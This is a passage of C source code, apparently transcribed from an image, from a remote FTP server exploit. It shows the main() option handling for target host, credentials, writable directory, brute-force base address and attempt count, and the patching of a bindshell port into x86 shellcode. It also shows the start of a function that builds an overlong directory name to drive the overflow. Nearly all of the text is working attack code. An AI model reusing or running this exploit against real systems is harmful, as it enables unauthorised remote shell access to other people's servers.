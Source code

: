         break;
       case 'u':
        if(!user&&!(user=(char *)strdup(optarg)))
         printe("main(): allocating memory failed.",1);
        break;
       case 'p':
        if(!pass&&!(pass=(char *)strdup(optarg)))
         printe("main(): allocating memory failed.",1);
        break;
       case 'c':
        if(!writedir&&!(writedir=(char *)strdup(optarg)))
         printe("main(): allocating memory failed.",1);
        break;
       case 'b':
        sscanf(optarg,"%x",&baseaddr);
        break;
       case 'a':
        align=atoi(optarg);
        break;
       case 'n':
        attempts=atoi(optarg);
        break;
       case 'r':
        reverse=1;
        break;
       case 'd':
        no_io=1;
        break;
       default:
        usage(argv[0]);
        break;
      }
     }
     if(!host)
      usage(argv[0]);
     /* fill in the blanks, or out of bounds. */
     if(!user)user=DFLUSER;
     if(!pass)pass=DFLPASS;
     if(!writedir)writedir=DFLDIR;
     if(!baseaddr)baseaddr=DFLADDR;
     if(align>3)align=2;
     if(!((sport&0xff00)>>8)||!(sport&0x00ff)){
      printf("[!] shell port defined contains null byte(s), using default.\n");
      sport=7979; /* back to default. */
     }
     /* change the bindshell port. */
     x86_exec[20]=(sport&0xff00)>>8;
     x86_exec[21]=(sport&0x00ff);
     /* verbose. */
     printf("[*] target: %s:%d, identity: %s:%s.\n[*] directory: %s, brute"
     " start: 0x%.8x, alignment: %d.\n[*] memory direction: %s, attempts: "
     "%d, bindshell port: %d.\n\n",host,port,user,pass,writedir,baseaddr,
     align,(!reverse?"downward":"upward"),attempts,sport);
     signal(SIGINT,sig_ctrlc); /* explained/pretty exit. */
     signal(SIGPIPE,sig_pipe); /* handle abnormal disconnects. */
     ftp_connect(); /* do the magic, brute force. */
     printe("brute force exhausted, failed.",0);
     exit(0);
    }
    char *getdir(unsigned int offset){
     unsigned int i=0;
     char *buf;
     /* 256 will fail; 255 or less. */
     if(!(buf=(char *)malloc(255+1)))